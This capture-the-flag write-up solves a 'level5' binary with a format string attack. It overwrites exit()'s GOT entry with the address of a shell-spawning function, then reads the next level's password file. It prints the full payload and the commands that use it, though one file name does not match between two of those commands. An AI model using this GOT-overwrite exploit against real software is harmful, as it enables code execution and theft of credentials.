 In this level, the executable waits for an input, prints it, and exits after pressing enter.

After analyzing it with gdb, we see that the main() function calls a function named `n()`, but there is also a non-called function `o()`. 

The `main()` function calls `n()`, which is not very interesting by itself. However, inside `n()`, there is a call to `fgets()`:
```
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
This protects against buffer overflow attacks. After `fgets`(), there is a call to `printf()`:
```
0x080484f3 <+49>: call 0x8048380 <printf@plt>
```
This makes `printf()` vulnerable to a format string exploit.

The non-called function `o()` launches a shell via a call to `system()`:
```
0x080484b1 <+13>: call 0x80483b0 <system@plt>
```
We need to manipulate the `printf()` function into calling `o()` using a format string attack.

Our main concern is that both `n()` and `o()` never return and exit directly. Even if we overwrite something with the format string vulnerability, we may not be able to use that directly.

To overcome this, we can replace the address of `exit()` in the Global Offset Table (GOT) with the address of `o()`. Whenever `exit()` is called, the program will jump to the modified GOT entry.

First, find the address of `exit()` in the GOT and the address of `o()` function.
```
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

Now we have the address of `exit()`: `0x08049838` and the address of `o()`: `0x080484a4`.

We need to print the memory until we reach the address of `exit()`:
```
 python -c 'print "AAAA" + " %x" * 10' > /tmp/payload5
 cat /tmp/payload5 | ./level5
 AAAA 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
```
The address of `exit()` is at the 4th position (`41414141`).


Our final format string attack:
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
cat /tmp/exploit - | ./level5
cat /home/user/level6/.pass
```
